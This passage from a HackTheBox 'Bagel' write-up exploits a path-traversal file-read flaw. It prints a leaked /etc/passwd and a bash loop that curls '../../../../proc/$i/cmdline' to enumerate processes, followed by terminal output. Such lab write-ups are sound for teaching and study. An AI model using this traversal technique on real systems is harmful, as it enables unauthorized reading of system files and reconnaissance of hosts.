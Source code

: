 ```
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

Alright so I have local file reading capabilities as www-data. The site doesn't give any leads as to its framework/cms, so I'll have to dig around. I do know from another box that **/proc/#/cmdline** can be used to enumerate processes on a system if I have local file reading capabilites, so why not start there. 

Before that though I think I should point out that some of those users seem a bit odd. Operator for example had its home directory as /root, and the user adm has a specific directory in /var/adm. And odd of all the user _laurel has its home set to /var/log/laurel. I'm sure this information will help us later, now onto digging through the filesystem. 

I whipped up a crude process scanner which will download the output into a local directory. I can then clear out bad entries by searching for empty files and finally use grep to find meaningful entries.

```bash
#!/bin/bash

for i in {1..2000}
do
  curl http://bagel.htb:8000/?page=../../../../proc/$i/cmdline > procs/$i
done
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $bash findprocs.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    72  100    72    0     0    699      0 --:--:-- --:--:-- --:--:--   692
.....
.....
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $find . -type f -empty -print -delete
.....
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel/procs]
└──╼ $find . -type f -exec grep -q -F -x 'File not found' {} \; -exec rm -f {} +
.....
```
